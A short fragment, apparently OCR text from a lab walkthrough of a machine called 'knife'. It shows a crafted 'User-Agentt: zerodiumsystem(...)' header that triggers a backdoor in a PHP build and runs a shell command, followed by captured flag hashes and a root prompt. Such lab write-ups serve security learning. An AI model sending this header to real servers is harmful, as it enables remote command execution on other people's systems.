 User-Agentt: zerodiumsystem('cat /home/james/user.txt');
86a547c46239e3380638d5f91a8cdd05

root@knife:~# cat root.txt
2ffab1d0c49e56dd1f77f0b1b8a44b9f